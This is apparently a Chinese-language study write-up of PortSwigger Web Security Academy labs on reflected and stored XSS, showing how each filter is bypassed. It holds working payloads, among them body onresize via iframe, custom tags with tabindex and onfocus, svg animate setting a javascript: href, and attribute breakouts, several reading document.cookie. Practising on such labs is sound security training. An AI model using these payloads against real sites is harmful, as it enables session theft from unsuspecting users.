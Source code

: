 **目录：**

[TOC]

#### 1. Reflected XSS into HTML context with nothing encoded

很简单的一道题，有手就行

#### 2. Reflected XSS into HTML context with most tags and attributes blocked

题目说过滤了大多数标签，去找找还有什么标签可以使用。

直接用burp爆破tag和event（看状态码）

得到了tag为`body`，event为`onresize`

`onresize`要在窗口大小被改变的时候触发

用题目的exlpoit，在body部分构造一个iframe，然后onload事件在触发的时候改变大小

payload:(因为是在body部分，记得提前转码，好像不用转码也能过)

```html
<iframe src="https://acc91f9b1fff1f7980540718002a0084.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='100px'>
<iframe src="https://ac321fb51e21f4e780230d4600710017.web-security-academy.net/?search=<body onresize=alert(document.cookie)>" onload=this.style.width='100px'>
```

#### 3. Reflected XSS into HTML context with all tags blocked except custom ones

* 交互情况

过滤了除过自定义标签之外的所有HTML标签，但可以使用自定义标签。

自定义标签无法使用`onload`属性，但是onfocus可以使用，即聚焦触发（点击，而且可以多次），所以为了聚焦，还得需要给其聚焦的属性--`tabindex`

> **tabindex** [全局属性](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes) 指示其元素是否可以聚焦，以及它是否/在何处参与顺序键盘导航（通常使用Tab键，因此得名）。
>
> - tabindex=负值 (通常是tabindex=“-1”)，表示元素是可聚焦的，但是不能通过键盘导航来访问到该元素，用JS做页面小组件内部键盘导航的时候非常有用。
> - `tabindex="0"` ，表示元素是可聚焦的，并且可以通过键盘导航来聚焦到该元素，它的相对顺序是当前处于的DOM结构来决定的。
> - tabindex=正值，表示元素是可聚焦的，并且可以通过键盘导航来访问到该元素；它的相对顺序按照**tabindex** 的数值递增而滞后获焦。如果多个元素拥有相同的 **tabindex**，它们的相对顺序按照他们在当前DOM中的先后顺序决定。

`<xss tabindex=1 onfocus="alert(document.cookie)">`

但是聚焦的话，需要一个可以聚焦的对象，所以需要（可显示的）文字

`<xss tabindex=1 onfocus="alert(document.cookie)">aaaaa`

>**补充：经过仔细实测，不用（可显示的）文字也能聚焦触发，即对着前（或后）相应的位置按下即可**

payload:(exploit server)

```html
<script>
location = 'https://acbb1f641eaf54af80700c4800db0027.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus="alert(document.cookie)">aaaaa';
</script>
```

* 自动触发

自动触发的话，需要用户点击进入页面（exploit server）就自动聚焦，

为了实现自动聚焦，我们给标签添加一个id，然后在后面加上锚点，使用`#`

> <a>标记可以指向具有id属性的任何元素。
>
> 打开链接的时候也是同理

`<xss id=x tabindex=1 onfocus="alert(document.cookie)">#x`

最终payload：

```html
<script>
location = 'https://acbb1f641eaf54af80700c4800db0027.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus="alert(document.cookie)">#x';
</script>
```

#### 4. Reflected XSS with event handlers and `href` attributes blocked

可用的tag有：a, animate, discard, image, svg, title

可用的event有：...一个都没有

href属性也不能用。应该是不能使用`href=`

但是在svg标签存在的情况下，animate可以给上一个标签赋值。

如

```html
<svg><a><animate attributeName=href values="javascript:alert(1)"/>Click me</a></svg>
```

> <animate attributeName=href values="javascript:alert(1)"/> 等同于
>
> <animate attributeName=href values="javascript:alert(1)"></animate>
>
> 即马上在后面添加标签结束符

这样就可以成功把`<a>`变成`<a href="javascript:alert(1)">`

但是这样不会显示`Click me`那个文本，因为在`<svg>`标签下，需要一个框的大小才能正常显示文字

添加大小的方式：`<text x=20 y=20>`或者`<rect width=100% height=100%>`(要求text标签包含文字)

所以最终payload：

```html
<svg><a><animate attributeName=href values="javascript:alert(1)"/><text x=20 y=20>Click me</text></a></svg>
<svg><a><animate attributeName=href values="javascript:alert(1)"/><rect width=100% height=100%>Click me</rect></a></svg>
```

#### 5.Reflected XSS with some SVG markup allowed

然后爆破出来可以用discard,image, svg, title四个标签以及onbegin事件

直接去[XSS-payload](../字典/XSS-payload.txt)搜索discard和onbegin

最终找到了`<svg><discard onbegin=alert(1)>`

#### 6.Reflected XSS into attribute with angle brackets HTML-encoded

题目的意思是，过滤了`<` 和`>`，并将它们替换成命名实体

显示考虑到用`<svg>`标签进行反实例化，但是`<svg>`本身就包含尖括号，已经不起作用

我一开始以为这个只会在顶上显示，然后后面翻了一下，发现有一个value，这就简单了，直接封闭然后onclick

```
"onclick="alert(1)
```

确实弹窗了，但是不给过，看了一下答案，用的是onmouseover，就很疑惑

payload

```
"onmouseover="alert(1)
```

#### 7.Stored XSS into anchor `href` attribute with double quotes HTML-encoded

这个题漏洞出在提交评论的地方。提交了几次之后发现位置。

![7](_XSS-hard_image/7.png)

发现没有过滤。。。就直接输入就可以了。

#### 8.Reflected XSS in canonical link tag

